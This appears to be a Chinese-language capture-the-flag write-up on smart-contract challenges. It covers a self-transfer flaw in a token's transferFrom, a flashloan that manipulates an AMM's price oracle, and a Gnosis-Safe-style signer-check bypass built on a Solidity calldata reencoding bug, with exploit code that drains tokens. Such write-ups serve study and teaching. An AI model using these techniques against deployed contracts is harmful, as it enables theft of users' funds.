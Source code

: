 ## Escrow

## GreyHats-Dollar
Self Transfer in `transferFrom()`

```solidity
function transferFrom(address from, address to, uint256 amount) public update returns (bool) {
        if (from != msg.sender) allowance[from][msg.sender] -= amount;

        uint256 _shares = _GHDToShares(amount, conversionRate, false);
        uint256 fromShares = shares[from] - _shares;
        uint256 toShares = shares[to] + _shares;

        require(_sharesToGHD(fromShares, conversionRate, false) < balanceOf(from), "amount too small");
        require(_sharesToGHD(toShares, conversionRate, false) > balanceOf(to), "amount too small");

        shares[from] = fromShares;
        shares[to] = toShares;

        emit Transfer(from, to, amount);

        return true;
    }
```

## SimpleAMM
在初始化后，各个合约的状态是：

| Vault             |              |
| ----------------- | ------------ |
| totalAssets(Grey) | 2000e18      |
| totalSupply       | 1000e18      |
| sharePrice        | 2:1(Grey:SV) |

| AMM      |         |
| -------- | ------- |
| k        | 2000e18 |
| reserveX | 1000e18 |
| reserveY | 2000e18 |

因为amm有flashloan，所以我们可以先flashloan出来1000e18的sv，然后用这1000e18的sv从Vaule中提取出2000e18的grey，在存入1000e18的grey这时候状态就变成了

| Vault             |              |
| ----------------- | ------------ |
| totalAssets(Grey) | 1000e18      |
| totalSupply       | 1000e18      |
| sharePrice        | 1:1(Grey:SV) |

由于amm的价格依赖于vault，所以这时候我们不需要任何的amountIn就可以换出1000e18的grey，从而完成挑战

## Gnosis-Safe

Root Cause是https://soliditylang.org/blog/2022/08/08/calldata-tuple-reencoding-head-overflow-bug/，题目中Transaction的定义是:

```solidity
 struct Transaction {
        address signer;
        address to;
        uint256 value;
        bytes data;
    }
```

最后一个元素是`bytes` 动态元素，所以在`aggressive cleanup`的时候就会被清理成0.从而导致了绕过。

```solidity
transaction = ISafe.Transaction({
            signer: address(0x1337),
            to: address(grey),
            value: 0,
            data: abi.encodeCall(GREY.transfer, (msg.sender, 10_000e18))
        });
        bytes32 queueHash = safe.queueTransaction(v, r, s, transaction);
        console.logBytes32(queueHash);
        transaction2 = ISafe.Transaction({
            signer: address(0),
            to: address(grey),
            value: 0,
            data: abi.encodeCall(GREY.transfer, (msg.sender, 10_000e18))
        });
        bytes32 queueHash2 = keccak256(abi.encode(transaction2, v, r, s));
        console.logBytes32(queueHash2);
```
因为这个漏洞，所以在第一次提交transaction的时候他传入的其实就是signer=address(0)计算出的hash，从而绕过了executetransaction的signer检查。